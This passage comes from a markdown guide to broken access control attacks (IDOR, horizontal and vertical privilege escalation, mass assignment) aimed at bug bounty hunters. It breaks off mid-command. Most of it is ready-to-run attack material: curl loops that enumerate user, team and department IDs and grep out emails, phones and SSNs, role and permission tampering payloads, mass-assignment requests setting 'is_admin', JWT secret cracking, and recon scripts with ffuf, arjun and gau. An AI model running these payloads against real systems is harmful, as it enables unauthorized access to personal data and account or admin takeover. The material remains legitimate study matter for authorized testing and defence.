

# 🔐 Broken Access Control Attacks: The Ultimate Complete Master Guide

## IDOR • Privilege Escalation • Mass Assignment • Parameter Tampering • Insecure Direct Object References

### Bug Bounty & API Security Testing – No Stone Left Unturned

> **Scope:** Authorized testing only — bug bounty programs, penetration tests, and licensed lab environments.
> **Level:** Beginner to Expert
> **Philosophy:** *Trust nothing. Validate everything. Assume every ID is guessable. Break the authorization.*
> **Version:** 2.0 – The Complete Edition (every attack vector, payload, and bypass documented)

---

## 📋 Table of Contents

1. [Phase 0: Reconnaissance — Deep Access Control Discovery](#phase-0-reconnaissance--deep-access-control-discovery)
2. [Phase 1: Parameter Identification — Where IDs Live (and Leak)](#phase-1-parameter-identification--where-ids-live-and-leak)
3. [Phase 2: Baseline Establishment — Map the Authorization Model](#phase-2-baseline-establishment--map-the-authorization-model)
4. [Phase 3: Detection Methodology — Find the Weakness](#phase-3-detection-methodology--find-the-weakness)
5. [Phase 4: Context Fingerprinting — Understand the Ecosystem](#phase-4-context-fingerprinting--understand-the-ecosystem)
6. [Phase 5: Exploitation – Core Attacks](#phase-5-exploitation--core-attacks)
   - 5.1 Insecure Direct Object References (IDOR)
   - 5.2 Horizontal Privilege Escalation
   - 5.3 Vertical Privilege Escalation
   - 5.4 Mass Assignment / Parameter Pollution
   - 5.5 Function-Level Access Control (Missing Authorization)
   - 5.6 Forced Browsing / Direct Access
   - 5.7 Parameter Tampering (Cookie, Header, Query, Body)
   - 5.8 Referer-Based Access Control Bypass
   - 5.9 Race Conditions in Authorization
   - 5.10 Logical Flaws in Multi-Step Processes
   - 5.11 Business Logic Bypass
   - 5.12 Cross-Tenant Data Leakage
   - 5.13 GraphQL Access Control Bypasses
7. [Phase 6: Advanced Attacks – Microservices, OAuth2, Serverless, Cloud](#phase-6-advanced-attacks--microservices-oauth2-serverless-cloud)
   - 6.1 Microservices Authorization Bypass
   - 6.2 OAuth2 / OpenID Connect Scope Escalation
   - 6.3 Serverless Function Authorization
   - 6.4 Cloud Services (AWS IAM, GCP IAM, Azure RBAC)
   - 6.5 Kubernetes RBAC Bypass
   - 6.6 API Gateway Authorization Bypasses
   - 6.7 Cross-Origin Resource Sharing (CORS) Misconfiguration
   - 6.8 Insecure Direct Object References in File Uploads
8. [Phase 7: Automation & Tooling – Full Arsenal](#phase-7-automation--tooling--full-arsenal)
   - 7.1 Core Tools (Burp, ZAP, ffuf, nuclei, etc.)
   - 7.2 Custom Fuzzing Scripts (Python, Go, Bash)
   - 7.3 Burp Suite Extensions & ZAP Add-ons
   - 7.4 Nuclei Templates & Mass Scanning
9. [Phase 8: Post-Exploitation – Impact & Chaining](#phase-8-post-exploitation--impact--chaining)
   - 8.1 Account Takeover & Data Breach
   - 8.2 Chaining with XSS, CSRF, SSRF, SQLi
   - 8.3 Persistence & Privilege Escalation
   - 8.4 Reporting Impact Statement
10. [Appendix A: Complete Payload Reference by Attack Type](#appendix-a-complete-payload-reference-by-attack-type)
    - A.1 IDOR Payloads (All Formats)
    - A.2 Horizontal & Vertical Privilege Escalation Payloads
    - A.3 Mass Assignment Payloads
    - A.4 Parameter Tampering Payloads
    - A.5 Function-Level Access Control Payloads
    - A.6 Forced Browsing Payloads
    - A.7 GraphQL Access Control Bypass Payloads
    - A.8 OAuth2 Scope Escalation Payloads
    - A.9 Bypass & WAF Evasion Techniques
    - A.10 File Upload IDOR Payloads
    - A.11 Business Logic Bypass Payloads
11. [Appendix B: Access Control Endpoint & Parameter Encyclopedia](#appendix-b-access-control-endpoint--parameter-encyclopedia)
12. [Appendix C: Real-World CVEs & Case Studies](#appendix-c-real-world-cves--case-studies)
13. [Appendix D: Detection & Prevention Best Practices](#appendix-d-detection--prevention-best-practices)
14. [Appendix E: Tooling Installation & Environment Setup](#appendix-e-tooling-installation--environment-setup)
15. [Appendix F: Quick Reference Signal Cheat Sheet](#appendix-f-quick-reference-signal-cheat-sheet)

---

## Phase 0: Reconnaissance — Deep Access Control Discovery

### 0.1 Passive Collection from Known Sources

**Scope:** Find all endpoints, parameters, and identifiers that may be vulnerable.

#### 0.1.1 Common Identifiers to Hunt

| Identifier Type | Examples | Where to Find |
|----------------|----------|---------------|
| **User IDs** | `user_id`, `uid`, `id`, `account_id`, `customer_id` | URL path, query, body, headers |
| **Document IDs** | `document_id`, `file_id`, `attachment_id`, `image_id` | Upload endpoints, downloads |
| **Order IDs** | `order_id`, `invoice_id`, `transaction_id`, `payment_id` | E-commerce, banking APIs |
| **Project IDs** | `project_id`, `workspace_id`, `team_id`, `org_id` | SaaS applications |
| **Message IDs** | `message_id`, `chat_id`, `conversation_id` | Messaging apps |
| **Resource IDs** | `resource_id`, `asset_id`, `device_id` | IoT, management systems |
| **UUIDs** | `uuid`, `guid`, `token` | Any CRUD operation |
| **Username/Email** | `username`, `email`, `user` | Login, profile endpoints |
| **Numeric IDs** | `1`, `2`, `3`, `12345` | Sequential identifiers |
| **Hash IDs** | `a1b2c3d4e5f6`, `hash_id` | MongoDB, short IDs |

#### 0.1.2 Automated Discovery Commands

```bash
# Collect all URLs from historical data
gau --subs target.com | grep -E "(id=|/user/|/account/|/order/|/document/|/file/|/project/|/team/|/admin/)" > id_candidates.txt

# Fetch all JavaScript files and grep for ID patterns
subjs -l live_hosts.txt | xargs -I{} curl -s {} | grep -E "(id|user_id|account_id|order_id|document_id|file_id|project_id|team_id)" > js_ids.txt

# Extract IDs from response bodies
gospider -s "https://target.com" -o output -c 10 -d 3 | grep -E "(/[0-9]+|id=[0-9]+|user_id=[0-9]+|order=[0-9]+)" > discovered_ids.txt

# Find all API endpoints
waybackurls target.com | grep -E "\.(json|xml|api|rest|graphql|v1|v2)" > api_endpoints.txt

# Find potential admin endpoints
ffuf -u https://target.com/FUZZ -w ~/wordlists/admin_paths.txt -mc 200,403,302 -o admin_endpoints.json

# Find all endpoints with numeric IDs
ffuf -u "https://target.com/api/users/1" -w ~/wordlists/id_range.txt -mc 200,404 -o id_enumeration.json
```

### 0.2 Technology Detection for Access Control Frameworks

| Framework/Platform | Version | Known Weaknesses |
|-------------------|---------|------------------|
| **Spring Security** | <5.3 | Method-level bypass, path traversal |
| **ASP.NET Core Identity** | <3.1 | Role validation bypass |
| **Django Auth** | <3.0 | Insecure object-level permissions |
| **Laravel Auth** | <7.0 | Gate policy bypasses |
| **Node.js (Express)** | Various | Missing middleware, route order issues |
| **Ruby on Rails** | <6.0 | Mass assignment, strong parameters bypass |
| **OAuth2 / OIDC** | Various | Scope escalation, redirect_uri bypass |
| **AWS IAM** | Various | Policy misconfigurations, resource-based policies |
| **Azure AD** | Various | Role assignment bypasses |
| **Firebase Auth** | Various | Insecure rules |

**Detection:**
```bash
# Check for auth headers
httpx -l live_hosts.txt -match-regex "Bearer|JWT|session|auth" -o auth_headers.txt

# Check for common auth endpoints
nuclei -l live_hosts.txt -t ~/nuclei-templates/technologies/ -o tech_detection.txt
```

### 0.3 Role & Permission Enumeration

```bash
# Enumerate available roles
curl -s "https://target.com/api/users/me" | jq .role
curl -s "https://target.com/api/roles" -H "Authorization: Bearer <token>"

# Check for privileged endpoints
for endpoint in $(cat privileged_endpoints.txt); do
  curl -s "https://target.com$endpoint" -H "Authorization: Bearer $USER_TOKEN" -o /dev/null -w "%{http_code} - $endpoint\n"
done

# Enumerate user list (if allowed)
curl -s "https://target.com/api/users" -H "Authorization: Bearer <token>"
```

### 0.4 Rate Limiting Setup for Brute Force

| Attack Type | Max Threads | Delay | Burst Limit |
|-------------|-------------|-------|-------------|
| ID enumeration (numeric) | 50 | 0.05s | 200 req/min |
| ID enumeration (UUID) | 10 | 0.2s | 50 req/min |
| Parameter fuzzing | 100 | 0.05s | 500 req/min |
| Function-level scanning | 20 | 0.1s | 100 req/min |
| Mass assignment fuzzing | 30 | 0.1s | 150 req/min |
| GraphQL introspection | 1 | - | 5 req/min |

---

## Phase 1: Parameter Identification — Where IDs Live (and Leak)

### 1.1 Transmission Vectors & Testing Methods

| Location | Example | Attack Vector |
|----------|---------|---------------|
| **URL Path** | `/api/users/123` | Modify numeric ID, try `123`, `124`, `1`, `admin` |
| **URL Query** | `?user_id=123&file=abc.pdf` | Try other IDs, parameter pollution |
| **POST Body (JSON)** | `{"user_id": "123", "role": "user"}` | Mass assignment, role escalation |
| **POST Body (Form)** | `user_id=123&role=admin` | Same as JSON |
| **Headers** | `X-User-ID: 123`, `X-Forwarded-For` | Header injection, impersonation |
| **Cookies** | `session_id=abc123`, `user=123` | Cookie tampering |
| **Authorization Header** | `Bearer <token>` | Token substitution |
| **GraphQL** | `query { user(id: "123") }` | IDOR in queries, alias attacks |
| **Multipart Form** | `--boundary ... user_id: 123` | Boundary pollution |
| **XML** | `<user_id>123</user_id>` | XXE via IDs |
| **WebSocket** | `ws://target?user_id=123` | WebSocket tampering |

### 1.2 High-Value Endpoints to Prioritize

```
/api/users                → User list (horizontal escalation)
/api/users/me             → Current user info
/api/users/{id}           → Specific user info (IDOR)
/api/users/{id}/profile   → User profile
/api/users/{id}/settings  → User settings
/api/users/{id}/delete    → User deletion
/api/users/{id}/role      → Role management
/api/admin                → Admin panel
/api/admin/users          → Admin user management
/api/admin/settings       → Admin settings
/api/orders               → Order list
/api/orders/{id}          → Specific order
/api/orders/{id}/invoice  → Invoice download
/api/documents            → Document list
/api/documents/{id}       → Document download
/api/documents/{id}/delete → Document deletion
/api/files/uploads        → File upload
/api/files/{id}           → File download
/api/messages             → Message list
/api/messages/{id}        → Specific message
/api/messages/{id}/delete → Message deletion
/api/projects             → Project list
/api/projects/{id}        → Specific project
/api/projects/{id}/members → Project members
/api/teams                → Team list
/api/teams/{id}           → Specific team
/api/payments             → Payment history
/api/payments/{id}        → Payment details
/api/export               → Data export
/api/download             → Download endpoint
/api/preview              → Preview endpoint
/api/upload               → Upload endpoint
/api/graphql              → GraphQL endpoint
/api/webhooks             → Webhook management
/api/api-keys             → API key management
```

### 1.3 Hidden Parameter Discovery

```bash
# Use arjun to find hidden ID-related parameters
arjun -u https://target.com/api/users -m GET -w ~/wordlists/id_params.txt -t 10 -o arjun_id_params.txt

# Use ffuf to fuzz for user IDs
ffuf -u "https://target.com/api/users/FUZZ" -w ~/wordlists/user_ids.txt -mc 200 -o users_enum.json

# Find all numeric IDs in responses
curl -s "https://target.com/api/users" | grep -E "\"id\":\"[0-9]+\""

# Discover hidden parameters with param miner
python3 param_miner.py -u "https://target.com/api/users" -m GET -o hidden_params.txt
```

---

## Phase 2: Baseline Establishment — Map the Authorization Model

### 2.1 Access Control Model Anatomy

```
┌─────────────────────────────────────────────────────────────┐
│                     Access Control Model                    │
├─────────────────────────────────────────────────────────────┤
│  1. Authentication (Who are you?)                          │
│     - Session token, JWT, API key, OAuth token             │
│  2. Authorization (What can you do?)                       │
│     - Role-based (RBAC)                                    │
│     - Permission-based (PBAC)                             │
│     - Attribute-based (ABAC)                              │
│     - Resource-based (ReBAC)                              │
│     - Policy-based (PBAC)                                 │
│  3. Scope (What can you access?)                           │
│     - Tenancy: Multi-tenant vs single-tenant              │
│     - Resources: User, order, document, etc.              │
│     - Actions: Read, Write, Delete, Update                │
└─────────────────────────────────────────────────────────────┘
```

### 2.2 Baseline Recording Template

| Field | Value | Notes |
|-------|-------|-------|
| **User Role** | `user` | Base role for testing |
| **User ID** | `123` | Current user identifier |
| **Admin Role** | `admin` | Target privileged role |
| **Admin ID** | `1` | Target privileged user |
| **Tenant ID** | `tenant_123` | Multi-tenant identifier |
| **Resources Accessible** | `orders`, `profile`, `settings` | What user can access |
| **Resources Restricted** | `admin`, `users`, `payments` | What user cannot access |
| **Authorization Method** | `Role-based`, `Permission-based` | How auth is enforced |
| **ID Types** | `numeric`, `UUID`, `hash` | Identifier format |
| **ID Length** | `1-99999`, `36 chars` | ID range/length |
| **ID Patterns** | `/users/{id}`, `?user_id={id}` | URL structure |
| **Auth Check Location** | `Middleware`, `Method-level`, `Controller` | Where validation occurs |
| **Default Responses** | `403 Forbidden`, `404 Not Found` | Error handling |

### 2.3 Mapping the Authorization Matrix

```python
#!/usr/bin/env python3
# auth_matrix_mapper.py

import requests
import json
from concurrent.futures import ThreadPoolExecutor

class AuthMatrixMapper:
    def __init__(self, base_url, tokens):
        self.base_url = base_url
        self.tokens = tokens  # {role: token}
        self.results = {}
    
    def test_endpoint(self, endpoint, method='GET', data=None):
        for role, token in self.tokens.items():
            headers = {'Authorization': f'Bearer {token}'}
            if method == 'GET':
                resp = requests.get(f"{self.base_url}{endpoint}", headers=headers)
            else:
                resp = requests.post(f"{self.base_url}{endpoint}", headers=headers, json=data)
            
            status = resp.status_code
            if status != 401 and status != 403:
                self.results[f"{role}:{endpoint}"] = {
                    'status': status,
                    'length': len(resp.text),
                    'has_data': 'error' not in resp.text.lower()
                }
    
    def generate_matrix(self):
        endpoints = [
            '/api/users/me',
            '/api/users',
            '/api/users/1',
            '/api/admin',
            '/api/admin/users',
            '/api/orders',
            '/api/orders/1',
            '/api/documents',
            '/api/documents/1',
        ]
        
        with ThreadPoolExecutor(max_workers=10) as executor:
            for endpoint in endpoints:
                executor.submit(self.test_endpoint, endpoint)
        
        return self.results

# Usage
mapper = AuthMatrixMapper('https://target.com', {
    'user': 'user_token_here',
    'admin': 'admin_token_here',
    'guest': 'guest_token_here'
})
matrix = mapper.generate_matrix()
print(json.dumps(matrix, indent=2))
```

---

## Phase 3: Detection Methodology — Find the Weakness

### 3.1 Quick Vulnerability Checklist

- [ ] **IDOR in URL** – Can I access another user's data by changing the ID?
- [ ] **IDOR in Query** – Is the ID in a query parameter vulnerable?
- [ ] **IDOR in Body** – Can I modify IDs in POST/PUT requests?
- [ ] **IDOR in Headers** – Is there a `X-User-ID` header I can forge?
- [ ] **IDOR in Cookie** – Is the user ID in a cookie? Can I modify it?
- [ ] **IDOR in JWT** – Are claims like `sub` or `user_id` used without validation?
- [ ] **Horizontal Escalation** – Can I access another user's data of same role?
- [ ] **Vertical Escalation** – Can I perform admin actions as a normal user?
- [ ] **Mass Assignment** – Can I add extra parameters to update role/permissions?
- [ ] **Missing Function-Level Access** – Can I access admin endpoints directly?
- [ ] **Forced Browsing** – Can I access files/directories directly?
- [ ] **Parameter Pollution** – Can I add duplicate parameters to bypass validation?
- [ ] **Referer-Based Auth** – Can I change the Referer header?
- [ ] **CORS Misconfiguration** – Can I make cross-origin requests?
- [ ] **GraphQL Introspection** – Can I query internal fields?
- [ ] **GraphQL Alias Attack** – Can I query multiple resources?
- [ ] **Batch Request Attack** – Can I send multiple requests in one?
- [ ] **Business Logic Bypass** – Can I skip steps in a process?
- [ ] **Race Condition** – Can I bypass checks with timing attacks?
- [ ] **Tenant Isolation Bypass** – Can I access data from another tenant?

### 3.2 Automated Detection with Nuclei

```bash
# Run all access control templates
nuclei -l endpoints.txt -t ~/nuclei-templates/access-control/ -o ac_vulns.txt

# Run IDOR detection
nuclei -u https://target.com/api/users/1 -t ~/nuclei-templates/idor/ -o idor_results.txt

# Run GraphQL introspection
nuclei -u https://target.com/graphql -t ~/nuclei-templates/graphql/ -o graphql_results.txt
```

### 3.3 Manual Step-by-Step Approach

1. **Enumerate all endpoints** using `ffuf` or `gospider`
2. **Identify ID parameters** in URLs, bodies, headers, cookies
3. **Test IDOR** by incrementing/decrementing IDs
4. **Test privilege escalation** by trying admin endpoints
5. **Test mass assignment** by adding `role: admin` to requests
6. **Test function-level access** by accessing endpoints without authentication
7. **Test forced browsing** by accessing files/directories directly
8. **Test parameter tampering** by modifying all parameters
9. **Test GraphQL** by trying introspection and alias attacks
10. **Test business logic bypass** by manipulating workflows

### 3.4 ID Enumeration Techniques

```bash
# Sequential ID enumeration
for i in $(seq 1 1000); do
  curl -s "https://target.com/api/users/$i" -H "Authorization: Bearer $TOKEN" -o /dev/null -w "%{http_code} $i\n"
done > id_enum.txt

# UUID enumeration (partial)
for uuid in $(cat common_uuids.txt); do
  curl -s "https://target.com/api/users/$uuid" -H "Authorization: Bearer $TOKEN"
done

# Hash ID enumeration (MongoDB ObjectID)
for hex in $(seq -f "%.0f" 1 100); do
  curl -s "https://target.com/api/documents/$(printf '%06x' $hex)" -H "Authorization: Bearer $TOKEN"
done

# Username enumeration
for user in $(cat usernames.txt); do
  curl -s "https://target.com/api/users/$user" -H "Authorization: Bearer $TOKEN"
done

# Email enumeration
for email in $(cat emails.txt); do
  curl -s "https://target.com/api/users?email=$email" -H "Authorization: Bearer $TOKEN"
done
```

---

## Phase 4: Context Fingerprinting — Understand the Ecosystem

### 4.1 Access Control Patterns by Architecture

| Architecture | Common Patterns | Vulnerabilities |
|--------------|-----------------|-----------------|
| **Monolithic** | RBAC, session-based, database checks | IDOR, forced browsing, missing function checks |
| **Microservices** | JWT claims, API gateway, service mesh | Scope confusion, claim injection, gateway bypass |
| **SPA (React/Vue)** | Token-based, client-side routing | Client-side auth bypass, exposed API endpoints |
| **Mobile App** | Token in storage, API calls | Hardcoded IDs, insecure storage, replay attacks |
| **GraphQL** | Query-level auth, resolvers | Introspection, alias attacks, batch requests |
| **REST API** | Path-based, param-based, header-based | All IDOR variants, mass assignment |
| **SOAP/XML** | WSDL-based, header-based | XML injection via IDs, WSDL exposure |
| **gRPC** | Service-level auth, metadata | Service reflection, metadata tampering |
| **Serverless** | IAM policies, function auth | IAM misconfigurations, function bypass |
| **Cloud (AWS/GCP/Azure)** | IAM roles, resource policies | Permission escalation, role assumption |
| **Kubernetes** | RBAC, service accounts | Cluster-level escalation, namespace bypass |
| **OAuth2/OIDC** | Scopes, consent, redirect_uri | Scope escalation, redirect_uri bypass |
| **SSO (SAML)** | SAML assertions, attributes | Attribute manipulation, assertion tampering |

### 4.2 Role and Permission Hierarchy Mapping



**Common Role Hierarchies:**

| Role | Permissions |
|------|-------------|
| **Super Admin** | Everything |
| **Admin** | User management, content management, system settings |
| **Manager** | Team management, reporting, some settings |
| **Editor** | Content creation, editing, publishing |
| **User** | Self-management, resource access |
| **Guest** | Read-only access, limited resources |

### 4.3 ID Patterns Analysis

| ID Type | Example | Pattern | Predictability |
|---------|---------|---------|---------------|
| **Numeric** | `123` | Incremental | High |
| **UUID v4** | `550e8400-e29b-41d4-a716-446655440000` | 8-4-4-4-12 format | Low |
| **MongoDB ObjectID** | `507f191e810c19729de860ea` | 24 hex chars | Medium |
| **Base64/URL-safe** | `a1b2c3d4e5f6g7h8` | Variable length | Medium |
| **Hash (MD5/SHA)** | `5d41402abc4b2a76b9719d911017c592` | 32/40/64 hex chars | Low |
| **Custom Hash** | `ABC123XYZ` | Alphanumeric | Medium |
| **Email** | `user@example.com` | Username@domain | High |
| **Username** | `john_doe` | Alphanumeric + _ | High |
| **Slug** | `my-awesome-post` | URL-friendly | Medium |
| **Composite** | `2024-01-01-123` | Date + ID | Medium |

**ID Enumeration Probability:**
- **Numeric:** ~100% (predictable)
- **Email/Username:** ~90% (common names/emails)
- **MongoDB ObjectID:** ~60% (timestamp-based)
- **UUID v4:** ~0.0000000001% (random)
- **Base64 URL-safe:** ~0.0000000001% (random)
- **Hash:** ~0.0000000001% (random)

---

## Phase 5: Exploitation – Core Attacks

### 5.1 Insecure Direct Object References (IDOR)

#### 5.1.1 URL Path IDOR

**Vulnerable Endpoint:**
```
GET /api/users/123/profile
```

**Exploitation:**
```bash
# Enumerate sequential IDs
for i in $(seq 1 1000); do
  curl -s "https://target.com/api/users/$i/profile" -H "Authorization: Bearer $TOKEN" | grep -E "(email|phone|address|ssn)"
done

# Try different ID formats
curl "https://target.com/api/users/1/profile"      # Numeric
curl "https://target.com/api/users/001/profile"    # Leading zeros
curl "https://target.com/api/users/01/profile"     # Leading zero
curl "https://target.com/api/users/0x1/profile"    # Hex
curl "https://target.com/api/users/1.0/profile"    # Decimal
curl "https://target.com/api/users/1%00/profile"   # Null byte
curl "https://target.com/api/users/admin/profile"  # Username
curl "https://target.com/api/users/root/profile"   # Default
curl "https://target.com/api/users/me/profile"     # Me as ID
```

#### 5.1.2 Query Parameter IDOR

**Vulnerable Endpoint:**
```
GET /api/profile?user_id=123
```

**Exploitation:**
```bash
# Enumerate via query
for i in $(seq 1 1000); do
  curl "https://target.com/api/profile?user_id=$i" -H "Authorization: Bearer $TOKEN"
done

# Try other query parameters
curl "https://target.com/api/profile?uid=123"
curl "https://target.com/api/profile?user=123"
curl "https://target.com/api/profile?id=123"
curl "https://target.com/api/profile?account=123"
curl "https://target.com/api/profile?email=user@example.com"
```

#### 5.1.3 Body Parameter IDOR

**Vulnerable Endpoint:**
```
POST /api/update_profile
{"user_id": 123, "name": "John"}
```

**Exploitation:**
```bash
# Change user_id to another user
curl -X POST "https://target.com/api/update_profile" \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"user_id": 1, "name": "Hacked"}'

# Try different field names
curl -X POST "https://target.com/api/update_profile" \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"uid": 1, "name": "Hacked"}'
```

#### 5.1.4 Header IDOR

**Vulnerable Endpoint:**
```
GET /api/profile
Headers: X-User-ID: 123
```

**Exploitation:**
```bash
# Change X-User-ID header
for i in $(seq 1 1000); do
  curl "https://target.com/api/profile" -H "X-User-ID: $i" -H "Authorization: Bearer $TOKEN"
done

# Try other header names
curl "https://target.com/api/profile" -H "X-User-Id: 1"
curl "https://target.com/api/profile" -H "User-ID: 1"
curl "https://target.com/api/profile" -H "User: 1"
curl "https://target.com/api/profile" -H "X-Forwarded-User: 1"
```

#### 5.1.5 Cookie IDOR

**Vulnerable Endpoint:**
```
GET /api/profile
Cookie: user_id=123
```

**Exploitation:**
```bash
# Change cookie value
for i in $(seq 1 1000); do
  curl "https://target.com/api/profile" -H "Cookie: user_id=$i" -H "Authorization: Bearer $TOKEN"
done

# Try other cookie names
curl "https://target.com/api/profile" -H "Cookie: uid=1"
curl "https://target.com/api/profile" -H "Cookie: user=1"
curl "https://target.com/api/profile" -H "Cookie: id=1"
```

#### 5.1.6 JWT Claim IDOR

**Vulnerable JWT:**
```json
{
  "sub": "123",
  "role": "user",
  "user_id": "123"
}
```

**Exploitation:**
```bash
# Decode and modify JWT claims
jwt_tool <token> -p "user_id=1"
jwt_tool <token> -p "sub=1"

# If secret is weak, crack and forge
jwt_tool <token> -C -d rockyou.txt
# Then modify claims and resign
```

#### 5.1.7 GUID/UUID IDOR

**Vulnerable Endpoint:**
```
GET /api/users/550e8400-e29b-41d4-a716-446655440000
```

**Exploitation:**
```bash
# If UUIDs are generated from known inputs (user ID, timestamp)
# Try to generate from known data
uuidgen -t  # Generate time-based UUID
uuidgen -r  # Random UUID

# If UUIDs are sequential or predictable
for i in $(seq 1 1000); do
  # Generate UUID from known pattern
  uuid=$(printf "550e8400-e29b-41d4-a716-%012x" $i)
  curl "https://target.com/api/users/$uuid" -H "Authorization: Bearer $TOKEN"
done
```

#### 5.1.8 Composite ID IDOR

**Vulnerable Endpoint:**
```
GET /api/orders/2024-01-01-123
```

**Exploitation:**
```bash
# Enumerate date and sequence
for date in $(seq 2024-01-01 2024-12-31); do
  for seq in $(seq 1 1000); do
    curl "https://target.com/api/orders/$date-$seq" -H "Authorization: Bearer $TOKEN"
  done
done
```

#### 5.1.9 Referenced ID (Indirect Reference)

**Vulnerable Endpoint:**
```
GET /api/documents?reference=ABC123
```

**Exploitation:**
```bash
# Enumerate reference IDs
for ref in $(cat references.txt); do
  curl "https://target.com/api/documents?reference=$ref" -H "Authorization: Bearer $TOKEN"
done
```

### 5.2 Horizontal Privilege Escalation

#### 5.2.1 Same Role, Different User

**Vulnerability:** Accessing another user's data with same role

```bash
# User A (ID 123) accesses User B (ID 124) data
curl "https://target.com/api/users/124/profile" -H "Authorization: Bearer $TOKEN_A"
```

#### 5.2.2 Team/Group Horizontal Escalation

**Vulnerable Endpoint:**
```
GET /api/teams/5/members
```

**Exploitation:**
```bash
# User from Team A accesses Team B members
curl "https://target.com/api/teams/6/members" -H "Authorization: Bearer $TOKEN"

# Enumerate all teams
for team in $(seq 1 1000); do
  curl "https://target.com/api/teams/$team/members" -H "Authorization: Bearer $TOKEN" | grep -E "(email|user)"
done
```

#### 5.2.3 Department/Org Horizontal Escalation

**Vulnerable Endpoint:**
```
GET /api/departments/5/employees
```

**Exploitation:**
```bash
# Access different departments
for dept in $(seq 1 100); do
  curl "https://target.com/api/departments/$dept/employees" -H "Authorization: Bearer $TOKEN"
done
```

### 5.3 Vertical Privilege Escalation

#### 5.3.1 Role Parameter Tampering

**Vulnerable Endpoint:**
```
POST /api/update_user
{"user_id": 123, "role": "user"}
```

**Exploitation:**
```bash
# Change role to admin
curl -X POST "https://target.com/api/update_user" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"user_id": 123, "role": "admin"}'

# Try other role values
curl -X POST "https://target.com/api/update_user" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"user_id": 123, "role": "administrator"}'
```

#### 5.3.2 Admin Endpoint Access

**Vulnerable Endpoint:**
```
GET /api/admin/users
```

**Exploitation:**
```bash
# Try to access admin endpoints
curl "https://target.com/api/admin" -H "Authorization: Bearer $TOKEN"
curl "https://target.com/api/admin/users" -H "Authorization: Bearer $TOKEN"
curl "https://target.com/api/admin/settings" -H "Authorization: Bearer $TOKEN"
curl "https://target.com/api/admin/logs" -H "Authorization: Bearer $TOKEN"
```

#### 5.3.3 Admin Function Parameter Injection

**Vulnerable Endpoint:**
```
POST /api/action
{"action": "user_action", "user_id": 123}
```

**Exploitation:**
```bash
# Try admin actions
curl -X POST "https://target.com/api/action" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"action": "delete_user", "user_id": 1}'

# Try other admin actions
curl -X POST "https://target.com/api/action" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"action": "promote_user", "user_id": 1, "role": "admin"}'
```

#### 5.3.4 Permission Bit Override

**Vulnerable Endpoint:**
```
POST /api/update_permissions
{"user_id": 123, "permissions": 00000001}
```

**Exploitation:**
```bash
# Set all bits to 1 (admin permissions)
curl -X POST "https://target.com/api/update_permissions" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"user_id": 123, "permissions": 0xFFFFFFFF}'

# Try other permission values
curl -X POST "https://target.com/api/update_permissions" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"user_id": 123, "permissions": -1}'
```

### 5.4 Mass Assignment / Parameter Pollution

#### 5.4.1 Mass Assignment in User Update

**Vulnerable Endpoint:**
```
PUT /api/users/123
{"name": "John", "email": "john@example.com"}
```

**Exploitation:**
```bash
# Add role parameter
curl -X PUT "https://target.com/api/users/123" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"name": "John", "role": "admin"}'

# Add permissions parameter
curl -X PUT "https://target.com/api/users/123" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"name": "John", "permissions": 0xFFFFFFFF}'

# Add is_admin parameter
curl -X PUT "https://target.com/api/users/123" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"name": "John", "is_admin": true}'
```

#### 5.4.2 Parameter Pollution in Query

**Vulnerable Endpoint:**
```
GET /api/users?user_id=123&role=user
```

**Exploitation:**
```bash
# Duplicate parameters with different values
curl "https://target.com/api/users?user_id=123&user_id=1&role=admin"

# Add additional parameters
curl "https://target.com/api/users?user_id=123&role=admin"
```

#### 5.4.3 JSON Mass Assignment

**Vulnerable Endpoint:**
```
POST /api/create_user
{"username": "john", "email": "john@example.com"}
```

**Exploitation:**
```bash
# Add extra fields
curl -X POST "https://target.com/api/create_user" \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"username": "john", "email": "john@example.com", "role": "admin", "is_admin": true}'

# Nested objects
curl -X POST "https://target.com/api/create_user" \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"username": "john", "permissions": {"admin": true, "manage_users": true}}'
```

#### 5.4.4 XML Mass Assignment

**Vulnerable Endpoint:**
```
POST /api/create_user
<user><username>john</username><email>john@example.com</email></user>
```

**Exploitation:**
```bash
# Add extra tags
curl -X POST "https://target.com/api/create_user" \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/xml" \
  -d '<user><username>john</username><role>admin</role></user>'
```

#### 5.4.5 Form URL-Encoded Mass Assignment

**Vulnerable Endpoint:**
```
POST /api/create_user
username=john&email=john@example.com
```

**Exploitation:**
```bash
# Add extra fields
curl -X POST "https://target.com/api/create_user" \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d 'username=john&role=admin&is_admin=true'
```

#### 5.4.6 Array Injection Mass Assignment

**Vulnerable Endpoint:**
```
POST /api/update_settings
{"theme": "dark", "language": "en"}
```

**Exploitation:**
```bash
# Inject arrays to bypass validation
curl -X POST "https://target.com/api/update_settings" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"theme": ["dark", "light"], "language": "en"}'

# Inject nested arrays
curl -X POST "https://target.com/api/update_settings" \
